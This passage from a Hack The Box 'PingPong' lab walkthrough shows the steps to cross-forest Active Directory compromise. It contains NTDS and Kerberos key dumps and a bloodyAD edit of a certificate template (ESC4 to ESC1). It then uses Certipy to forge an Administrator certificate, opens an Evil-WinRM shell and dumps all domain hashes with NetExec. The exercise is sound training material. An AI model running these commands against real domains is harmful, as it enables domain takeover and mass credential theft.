P.Sanchez:1114:aad3b435b51404eeaad3b435b51404ee:5261d93d06680fc00db5454eff3bcfc0:::
H.Gordon:1115:aad3b435b51404eeaad3b435b51404ee:2dc83c2f510d420be2bf3692e9cb7371:::
P.Reiner:1116:aad3b435b51404eeaad3b435b51404ee:6fa016af828999bda0e26861e00afb31:::
C.Adam:1117:aad3b435b51404eeaad3b435b51404ee:3dbc49f649cd0ed23ecd7d5071bcf00b:::
R.Rupert:1118:aad3b435b51404eeaad3b435b51404ee:8960e808108c23470cea0551d0399e8f:::
svc_sql:1119:aad3b435b51404eeaad3b435b51404ee:9e5de13bde362ad5cc68a49d26301c3b:::
svc_print:1120:aad3b435b51404eeaad3b435b51404ee:e21d90eb3c651f4bfdf6606a4c07ffd5:::
svc_ldap:1121:aad3b435b51404eeaad3b435b51404ee:f49491f9d40172069146a9c907e4d510:::
R.Martinelli:1124:aad3b435b51404eeaad3b435b51404ee:d60fc26a0569b953a5cebd1392232630:::
DC2$:1000:aad3b435b51404eeaad3b435b51404ee:e12246a7e57232eec29791ba3273a5b9:::
Pong_gMSA$:1123:aad3b435b51404eeaad3b435b51404ee:4b85a2a049588810c1267e4018b07a07:::
PING$:1103:aad3b435b51404eeaad3b435b51404ee:9c3d799769aa410c3a8ca5121471808a:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:eb76ed05ee09e812ac2b1328f5b846afeafe69f9a1ba13f94f50ab3d8d524559
Administrator:aes128-cts-hmac-sha1-96:3ca116fdd0d280d751be4efee3eeea7b
Administrator:des-cbc-md5:25ab7c5498ef6df1
krbtgt:aes256-cts-hmac-sha1-96:6282e2af4ca8f5ca935f84d03b486f2e6cc2a9b5c87fb0637a4449a44a8cd5f8
krbtgt:aes128-cts-hmac-sha1-96:f1dc39ca727289c857163fb606b5aa41
krbtgt:des-cbc-md5:6702c7679d2949ef
C.Carlssen:aes256-cts-hmac-sha1-96:1fc4a69c646ad7fe6537eedf7d08e55c93143cf4dd32ec1d27fcd9d007cb78ba
C.Carlssen:aes128-cts-hmac-sha1-96:69ba981c227f43ae62ce4ce3f60389f4
C.Carlssen:des-cbc-md5:648c5e25761973c7
M.Sun:aes256-cts-hmac-sha1-96:653c8cb750f25f9d74c0477616e542d5430cf6bee994b50161cf5d52f3bedfd0
M.Sun:aes128-cts-hmac-sha1-96:8f07ec02fc56a32150d23fd0dbc353a3
M.Sun:des-cbc-md5:105ea16e20762aa2
Z.Zhen:aes256-cts-hmac-sha1-96:208f13a06970095f1edd7942478afd6d34f3b3ccddcae627fdfc00c1b22502b8
Z.Zhen:aes128-cts-hmac-sha1-96:b89193e73905053e95fb2ad3b340cfdb
Z.Zhen:des-cbc-md5:1c8a257962dccdb5
A.Pearson:aes256-cts-hmac-sha1-96:537543f5f783db4a10f4df73e87ec7df9c692df7d970e3ee4be08c76fa53d5e7
A.Pearson:aes128-cts-hmac-sha1-96:a3a9b0fa5a8dab39c2971bab470386a7
A.Pearson:des-cbc-md5:3becd6ae4a26bf89
P.Sanchez:aes256-cts-hmac-sha1-96:12fb2b9eb168304707d6ef260269445089928f2861a8f58e54fea85e9ab5309e
P.Sanchez:aes128-cts-hmac-sha1-96:b0f0baa47311cee88ca2b52b4e8ceb49
P.Sanchez:des-cbc-md5:83dc2cc7fb5dfb57
H.Gordon:aes256-cts-hmac-sha1-96:f540010f801f234d6e1373e5a628184bf658f87f8ac510ad772300d883b300a0
H.Gordon:aes128-cts-hmac-sha1-96:24977a9c20ff0ae29914f4f882d9b0db
H.Gordon:des-cbc-md5:1a7af2c83d46e9cd
P.Reiner:aes256-cts-hmac-sha1-96:558139b55509c8a6fefe5f493f7a316cd6ab23b6eb1770c4a81934f25b6b700d
P.Reiner:aes128-cts-hmac-sha1-96:3e6a72a9be1789fd6ea0b8b9b3306c19
P.Reiner:des-cbc-md5:d5bad657b55132df
C.Adam:aes256-cts-hmac-sha1-96:647d77f0b0b0ebd22689a316339a4242044556182e3fb3c2b7bc5ffc29b1b8c4
C.Adam:aes128-cts-hmac-sha1-96:e550f93fa28e7d7196d98534c1a787ea
C.Adam:des-cbc-md5:806dc84034e6dcef
R.Rupert:aes256-cts-hmac-sha1-96:c0dfecbe5140831b99750a5c68f3ea55e3474d15caa3cc684c9a5c0be8fc4eab
R.Rupert:aes128-cts-hmac-sha1-96:e034d0c375a79fa55f36bad49760fabf
R.Rupert:des-cbc-md5:9dbca10268fddc07
svc_sql:aes256-cts-hmac-sha1-96:04268c99f2fa7c1494eb690f151dbca811659fbb2f91507af68d14ea767299a4
svc_sql:aes128-cts-hmac-sha1-96:e2823bb8675e717c06220991e69ac1b6
svc_sql:des-cbc-md5:1c3bbf5145863858
svc_print:aes256-cts-hmac-sha1-96:f9bd97d0d297630c1b1e85dd2a94a827332e2328d74141a6bafa0aa00aec0544
svc_print:aes128-cts-hmac-sha1-96:9b87341cfde9d6f5832be8fc6718126f
svc_print:des-cbc-md5:765b3434f7e9312c
svc_ldap:aes256-cts-hmac-sha1-96:cfad16d6a69c32b7a78a203485f740d132fb8713d1477d81162eac62ced1bf0b
svc_ldap:aes128-cts-hmac-sha1-96:17b3dbc9341f30adf89d67285bc5cb88
svc_ldap:des-cbc-md5:5792c71945c80bd9
R.Martinelli:aes256-cts-hmac-sha1-96:61e48d17cfe9507a3095dfb84b218a4b803aa0984b123e432bc2a40fc5f7fe98
R.Martinelli:aes128-cts-hmac-sha1-96:14f94b4b3deaabde802460945a2079e9
R.Martinelli:des-cbc-md5:8c437f1f578f3b3b
DC2$:aes256-cts-hmac-sha1-96:486c88bea5be139e8a271864ac2ff0216d7ccb003b5eb61f2976071490515848
DC2$:aes128-cts-hmac-sha1-96:debc5c93eb20fca6eb01887a5f2104a8
DC2$:des-cbc-md5:16abe5405d2f51ef
Pong_gMSA$:aes256-cts-hmac-sha1-96:9a3d021763ac0f2ceb3b629eddf92fee758a3ba6fce28269a2d35a3e252e539a
Pong_gMSA$:aes128-cts-hmac-sha1-96:c48ae0b9895ebd9e1fe44ce34d3b696e
Pong_gMSA$:des-cbc-md5:2604752a456dfe1c
PING$:aes256-cts-hmac-sha1-96:97d3681ad84c5912ed24cda1cfd7ec0b4aaa8a9075fc0f91a11ec002bb52f812
PING$:aes128-cts-hmac-sha1-96:77f0620796aa9819d9c7c73319adc9eb
PING$:des-cbc-md5:a73d1680029ed54f
[*] Cleaning up...
```

## Privilege Escalation to R.Martinelli

`BloodHound` revealed `R.Martinelli` was a member of the foreign group `CA Managers@ping.htb`, which held `WriteOwner` and `WriteDACL` over the `SmartcardAuthentication` certificate template on `ping-DC1-CA`. This cross-forest ACE constituted an `ESC4` misconfiguration — write control over a template is sufficient to modify it into an `ESC1`-exploitable state.



The `AES256` key for `R.Martinelli` recovered from the `pong.htb` dump was used to obtain a `TGT` against `DC2.pong.htb`, the authoritative `KDC` for `pong.htb`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-secretsdump -k -no-pass 'pong.htb/c.carlssen@DC2.pong.htb' -just-dc-user R.Martinelli -dc-ip 192.168.2.2 -target-ip 192.168.2.2                             
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
R.Martinelli:1124:aad3b435b51404eeaad3b435b51404ee:d60fc26a0569b953a5cebd1392232630:::
[*] Kerberos keys grabbed
R.Martinelli:aes256-cts-hmac-sha1-96:61e48d17cfe9507a3095dfb84b218a4b803aa0984b123e432bc2a40fc5f7fe98
R.Martinelli:aes128-cts-hmac-sha1-96:14f94b4b3deaabde802460945a2079e9
R.Martinelli:des-cbc-md5:8c437f1f578f3b3b
[*] Cleaning up...
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-getTGT pong.htb/R.Martinelli -aesKey 61e48d17cfe9507a3095dfb84b218a4b803aa0984b123e432bc2a40fc5f7fe98 -dc-ip 192.168.2.2                                         
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in R.Martinelli.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=R.Martinelli.ccache
```

## Enumeration (R.Martinelli)

`BloodyAD` was used to enumerate writable objects for `R.Martinelli` in `ping.htb` via the cross-forest trust. The output confirmed write access to `Foreign Security Principal` objects in `ping.htb` — including `S-1-5-11` (`Authenticated Users`) — which would later be used as the target principal when granting enrollment rights on the `SmartcardAuthentication` template. Write access to the template itself was confirmed via `BloodHound`'s `CA Managers@ping.htb` group membership edge showing `WriteOwner` and `WriteDACL` on the template object.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodyAD --host DC1.ping.htb -k kdc=10.129.34.57 -d ping.htb -u r.martinelli get writable --detail

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=ping,DC=htb
url: WRITE
wWWHomePage: WRITE

distinguishedName: CN=S-1-5-21-2410575906-3092493790-2123333151-1124,CN=ForeignSecurityPrincipals,DC=ping,DC=htb
url: WRITE
wWWHomePage: WRITE
```

## Privilege Escalation to SYSTEM (DC1)

## Active Directory Certificate Services (AD CS) Abuse (Part 2)

### ESC4: Template Write Permissions Abuse

`ESC4` is an `Active Directory Certificate Services` (`AD CS`) misconfiguration where a principal has write access to a certificate template object in `Active Directory`. Certificate templates are `AD` objects stored under `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration` and their attributes directly control enrollment behaviour — including who can specify the `Subject Alternative Name`, what `Extended Key Usages` are present, and which accounts can enroll. An attacker with write access over a template can modify it to introduce `ESC1`-style conditions: setting `msPKI-Certificate-Name-Flag` to `1` (`ENROLLEE_SUPPLIES_SUBJECT`) allows the requester to specify an arbitrary `UPN` in the `SAN`, and granting `GenericAll` (or at minimum enrollment rights) to `Authenticated Users` (`S-1-5-11`) allows any authenticated user to enroll. Once these modifications are in place, `Certipy` can request a certificate specifying `Administrator@ping.htb` as the `UPN`, which the `KDC` will accept via `PKINIT` to issue a `TGT` as `Administrator`.

- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#esc4-vulnerable-certificate-template-access-control](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#esc4-vulnerable-certificate-template-access-control)

`R.Martinelli`'s cross-forest write access to the `SmartcardAuthentication` template was confirmed via `kvno` — verifying that `Kerberos` could reach `DC1.ping.htb` from the `pong.htb` context — and then the `msPKI-Certificate-Name-Flag` attribute was set to `1` to enable `ENROLLEE_SUPPLIES_SUBJECT`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ kvno -S ldap DC1.ping.htb
ldap/dc1.ping.htb@PING.HTB: kvno = 7
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=R.Martinelli.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodyAD --host DC1.ping.htb -k kdc=10.129.34.57 -d ping.htb -u r.martinelli set object 'CN=SmartcardAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=ping,DC=htb' msPKI-Certificate-Name-Flag -v 1
[+] CN=SmartcardAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=ping,DC=htb's msPKI-Certificate-Name-Flag has been updated
```

Next, `GenericAll` was granted to `S-1-5-11` (`Authenticated Users`) on the `SmartcardAuthentication` template object, making it enrollable by any authenticated user in the forest — including `C.Roberts`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=R.Martinelli.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodyAD --host DC1.ping.htb -k kdc=10.129.34.57 -d ping.htb -u r.martinelli add genericAll 'CN=SmartcardAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=ping,DC=htb' 'S-1-5-11'
[+] S-1-5-11 has now GenericAll on CN=SmartcardAuthentication,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=ping,DC=htb
```

With the template modified, `C.Roberts`'s credential cache was loaded and `Certipy` enrolled a certificate from the now-vulnerable `SmartcardAuthentication` template, specifying `Administrator@ping.htb` as the `UPN` and the `Administrator` `SID` as the security extension.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=c.roberts.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ certipy-ad req -k -no-pass -u 'c.roberts@ping.htb' -target DC1.ping.htb -dc-ip 10.129.34.57 -dc-host DC1.ping.htb -ca ping-DC1-CA -template SmartcardAuthentication -upn Administrator@ping.htb -sid S-1-5-21-750635624-2058721901-1932338391-500
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Requesting certificate via RPC
[*] Request ID is 20
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@ping.htb'
[*] Certificate object SID is 'S-1-5-21-750635624-2058721901-1932338391-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

`Certipy` authenticated as `Administrator` via `PKINIT`, recovering the `NTLM` hash and a valid `TGT`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ certipy-ad auth -pfx administrator.pfx -username Administrator -domain ping.htb -dc-ip 10.129.34.57
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@ping.htb'
[*]     SAN URL SID: 'S-1-5-21-750635624-2058721901-1932338391-500'
[*]     Security Extension SID: 'S-1-5-21-750635624-2058721901-1932338391-500'
[*] Using principal: 'administrator@ping.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@ping.htb': aad3b435b51404eeaad3b435b51404ee:63905deb12b527aadfdbc26d3f423eff
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=administrator.ccache
```

`Evil-WinRM` was used with the `Administrator` `TGT` to open a shell on `DC1`, completing `ping.htb` domain compromise.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ evil-winrm -i DC1.ping.htb -r ping.htb                                
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
44e0b12eef3db1c300e8e2d74863336e
```

## Post Exploitation

With full control over `ping.htb`, `NetExec` dumped the complete `DC1` `NTDS`, including all user hashes and the trust account `pong$` used for the inter-forest `Kerberos` trust.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ netexec smb DC1.ping.htb -k --use-kcache --ntds
SMB         DC1.ping.htb    445    DC1              [*]  x64 (name:DC1) (domain:ping.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         DC1.ping.htb    445    DC1              [+] PING.HTB\administrator from ccache (Pwn3d!)
SMB         DC1.ping.htb    445    DC1              [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         DC1.ping.htb    445    DC1              Administrator:500:aad3b435b51404eeaad3b435b51404ee:63905deb12b527aadfdbc26d3f423eff:::
SMB         DC1.ping.htb    445    DC1              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         DC1.ping.htb    445    DC1              krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d03746770b64696128d1f91b0617aa63:::
SMB         DC1.ping.htb    445    DC1              M.Russell:2610:aad3b435b51404eeaad3b435b51404ee:f5db5f47f097ab021ee98a30e242ac5e:::
SMB         DC1.ping.htb    445    DC1              G.Lorents:2611:aad3b435b51404eeaad3b435b51404ee:b455ecc1652c11cd5f66e95f39e71b23:::
SMB         DC1.ping.htb    445    DC1              Z.Iskam:2612:aad3b435b51404eeaad3b435b51404ee:e50d980fda4d49a973b4327d370f97d1:::
SMB         DC1.ping.htb    445    DC1              M.Wallace:2613:aad3b435b51404eeaad3b435b51404ee:56d180be2dbf58b6b6409ff3b7882e29:::
SMB         DC1.ping.htb    445    DC1              P.Paul:2614:aad3b435b51404eeaad3b435b51404ee:5ce178304d579bc1327d5b3d561760ef:::
SMB         DC1.ping.htb    445    DC1              A.Gordon:2615:aad3b435b51404eeaad3b435b51404ee:48537e9b0cc712176fdb92e813cb5058:::
SMB         DC1.ping.htb    445    DC1              P.Klain:2616:aad3b435b51404eeaad3b435b51404ee:d85a2e328ee4eac26e76e6f02cb31ba6:::
SMB         DC1.ping.htb    445    DC1              C.Roberts:2617:aad3b435b51404eeaad3b435b51404ee:2475be69d40e815588a85fd89c7a439d:::
SMB         DC1.ping.htb    445    DC1              S.Zhoski:2629:aad3b435b51404eeaad3b435b51404ee:361eddef6f02ae10a6313c07937ada22:::
SMB         DC1.ping.htb    445    DC1              R.Miller:2630:aad3b435b51404eeaad3b435b51404ee:e220860233958f586ba756cb85676286:::
SMB         DC1.ping.htb    445    DC1              A.Adam:2631:aad3b435b51404eeaad3b435b51404ee:b61722e29b5b22f4a4ad7b74e33c9f71:::
SMB         DC1.ping.htb    445    DC1              R.Robins:2632:aad3b435b51404eeaad3b435b51404ee:a7020eb3d35dd57f2d17aa1606c2aa40:::
SMB         DC1.ping.htb    445    DC1              P.Pollek:2633:aad3b435b51404eeaad3b435b51404ee:274a7166a54f86ee23a1ce06d89646e4:::
SMB         DC1.ping.htb    445    DC1              O.Plinski:2634:aad3b435b51404eeaad3b435b51404ee:88e28600eb3b73747ff18038fde405bd:::
SMB         DC1.ping.htb    445    DC1              V.Vodomir:2635:aad3b435b51404eeaad3b435b51404ee:82ff8a589f262eb311fd105c241d5c9b:::
SMB         DC1.ping.htb    445    DC1              D.MacKenzie:2637:aad3b435b51404eeaad3b435b51404ee:fb1027889ab135ce616421bc56464f1f:::
SMB         DC1.ping.htb    445    DC1              P.Vandeval:2638:aad3b435b51404eeaad3b435b51404ee:9200f377c51934d7a32a8b854bab10b5:::
SMB         DC1.ping.htb    445    DC1              T.Yang:2639:aad3b435b51404eeaad3b435b51404ee:3ffb8b304717ac77ad5ad50e4e62133e:::
SMB         DC1.ping.htb    445    DC1              N.Neri:2640:aad3b435b51404eeaad3b435b51404ee:43fa93d482aa6c2024d22e0c42f3845f:::
SMB         DC1.ping.htb    445    DC1              W.Williams:2641:aad3b435b51404eeaad3b435b51404ee:6f2e39ca814870c04acbeb11496ddead:::
SMB         DC1.ping.htb    445    DC1              K.Podroski:2642:aad3b435b51404eeaad3b435b51404ee:384ea7cc156e71cc99df84270667bb58:::
SMB         DC1.ping.htb    445    DC1              G.James:2643:aad3b435b51404eeaad3b435b51404ee:bf7407879e81380e204200430d68efd6:::
SMB         DC1.ping.htb    445    DC1              DC1$:1000:aad3b435b51404eeaad3b435b51404ee:238f779053e6dc0de47b2aa15089023e:::
SMB         DC1.ping.htb    445    DC1              gMSA$:2622:aad3b435b51404eeaad3b435b51404ee:13bb99f6205af6bec63d7fe5b4dc7ef5:::
SMB         DC1.ping.htb    445    DC1              pong$:2601:aad3b435b51404eeaad3b435b51404ee:98d8af55bbcc9cf8e364bd5a19860487:::
SMB         DC1.ping.htb    445    DC1              [+] Dumped 28 NTDS hashes to /home/kali/.nxc/logs/ntds/DC1_DC1.ping.htb_2026-04-27_044335.ntds of which 25 were added to the database
SMB         DC1.ping.htb    445    DC1              [*] To extract only enabled accounts from the output file, run the following command: 
SMB         DC1.ping.htb    445    DC1              [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC1_DC1.ping.htb_2026-04-27_044335.ntds | cut -d ':' -f1
```
